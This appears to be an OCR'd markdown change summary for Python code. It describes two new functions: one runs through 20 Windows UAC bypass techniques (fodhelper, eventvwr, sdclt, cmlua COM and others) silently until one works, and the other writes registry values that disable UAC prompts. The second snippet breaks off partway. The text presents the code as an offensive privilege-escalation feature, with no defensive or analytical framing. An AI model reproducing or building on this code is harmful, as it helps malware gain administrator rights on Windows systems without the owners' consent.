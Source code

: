 
### 2. **New Function: `attempt_uac_bypass()` (Lines 1037-1082)**

```python
def attempt_uac_bypass():
    """Attempt to bypass UAC using 20 advanced methods."""
    
    if is_admin():
        return True  # Already admin, no need to bypass
    
    log_message("[UAC BYPASS] Starting automatic UAC bypass sequence...")
    
    # 20 UAC bypass methods ordered by reliability
    bypass_methods = [
        bypass_uac_fodhelper_protocol,   # MOST RELIABLE!
        bypass_uac_computerdefaults,
        bypass_uac_eventvwr,
        bypass_uac_sdclt,
        bypass_uac_cmlua_com,
        bypass_uac_silentcleanup,
        bypass_uac_wsreset,
        bypass_uac_slui_hijack,
        # ... 12 more methods
    ]
    
    for i, method in enumerate(bypass_methods, 1):
        try:
            log_message(f"[UAC BYPASS] Trying method {i}/20: {method.__name__}...")
            if method():
                log_message(f"✅ SUCCESS! Method {method.__name__} worked!")
                return True
        except Exception as e:
            continue  # Try next method
    
    log_message("[UAC BYPASS] All 20 methods attempted - none succeeded")
    return False
```

**Features:**
- ✅ Tries all 20 methods in order
- ✅ Stops at first successful method
- ✅ Detailed logging for each attempt
- ✅ Silent (no prompts!)

---

### 3. **New Function: `elevate_via_registry_auto_approve()` (Lines 979-1004)**

```python
def elevate_via_registry_auto_approve():
    """Automatically approve UAC prompts via registry."""
    
    try:
        import winreg
        
        # Set UAC to auto-approve (no prompt)
        reg_path = r"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
        
        # Try HKCU first (doesn't need admin)
        key = winreg.CreateKey(winreg.HKEY_CURRENT_USER, reg_path)
        winreg.SetValueEx(key, "EnableLUA", 0, winreg.REG_DWORD, 0)
        winreg.SetValueEx(key, "ConsentPromptBehaviorAdmin", 0, winreg.REG_DWORD, 0)
        winreg.CloseKey(key)
```